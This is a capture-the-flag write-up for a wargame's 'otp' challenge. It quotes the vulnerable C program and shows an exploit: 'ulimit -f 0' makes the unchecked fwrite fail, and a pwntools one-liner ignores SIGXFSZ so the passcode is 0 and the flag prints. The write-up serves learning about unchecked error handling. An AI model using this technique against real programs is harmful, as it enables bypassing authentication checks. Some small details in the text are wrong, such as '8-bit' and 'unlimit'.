 This challenge is an example of why many programmers nag about C being unsafe.
The culprit in our case is error handling, in C there are no Exceptions or a special
type model to enforce error handling.
This means that is possible to forget an error and not crash the program.
This is generally undesirable
(the program would most likely continue execution in a state the developer did not intend it to)
but perfect for us.

To see what I mean, let's inspect `otp.c`:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

int main(int argc, char* argv[]){
	char fname[128];
	unsigned long long otp[2];

	if(argc!=2){
		printf("usage : ./otp [passcode]\n");
		return 0;
	}

	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1) exit(-1);

	if(read(fd, otp, 16)!=16) exit(-1);
	close(fd);

	sprintf(fname, "/tmp/%llu", otp[0]);
	FILE* fp = fopen(fname, "w");
	if(fp==NULL){ exit(-1); }
	fwrite(&otp[1], 8, 1, fp);
	fclose(fp);

	printf("OTP generated.\n");

	unsigned long long passcode=0;
	FILE* fp2 = fopen(fname, "r");
	if(fp2==NULL){ exit(-1); }
	fread(&passcode, 8, 1, fp2);
	fclose(fp2);

	if(strtoul(argv[1], 0, 16) == passcode){
		printf("Congratz!\n");
		system("/bin/cat flag");
	}
	else{
		printf("OTP mismatch\n");
	}

	unlink(fname);
	return 0;
}
```

The `main` functions reads 2 8-bit integers `otp[0]` and `otp[1]` from `/dev/urandom`,
after which it opens `/tmp/$opt[0]` and writes `opt[1]` to it.
Later that same value is loaded into the `passcode` variable, this time reading from `/tmp/$opt[0]`.

Now at first glance this code looks perfectly sound, there are even checks
for the openings and reads, very responsible.
Except if we look closer we notice that not all functions are checked for errors.
In particular what interests us is the call to `fwrite`.
If that call fails, `fread` would also fail (can't read 4 bytes from an empty file)
and we would know the value of `passcode` (it's conveniently initialized to 0).

All that's left to figure out is how to sabotage the `fwrite` call.
This is probably the least intuitive part of the solution since it requires a little bit of UNIX trivia knowledge -
we can limit the number of bytes written to (but not read from!) a file using the `ulimit` command.
i.e. calling `unlimit -f 0` from the command line will prohibit any writes in any child processes the shell spawns.

Let's try it:
```
otp@pwnable:~$ ulimit -f 0
otp@pwnable:~$ gdb otp
(gdb) r 0
Starting program: /home/otp/otp 0

Program received signal SIGXFSZ, File size limit exceeded.
0x00007fbc7845d3c0 in __write_nocancel () at ../sysdeps/unix/syscall-template.S:84
84	../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb)
```

To get pass the [SIGXFSZ](https://www.man7.org/linux/man-pages/man7/signal.7.html)
which by default causes a core dump
we should change the default action associated with that signal.
This can be done easily in python using the [signal](https://docs.python.org/2.7/library/signal.html) module.

Putting it all together we arrive at the final exploit:

```
otp@pwnable:~$ python -c "from pwn import *; import signal; signal.signal(signal.SIGXFSZ, signal.SIG_IGN); print process(['./otp', '0']).recvall()"
[+] Starting local process './otp': pid 433582
[+] Receiving all data: Done (90B)
[*] Process './otp' stopped with exit code 0 (pid 433582)
OTP generated.
Congratz!
...(flag)...
```
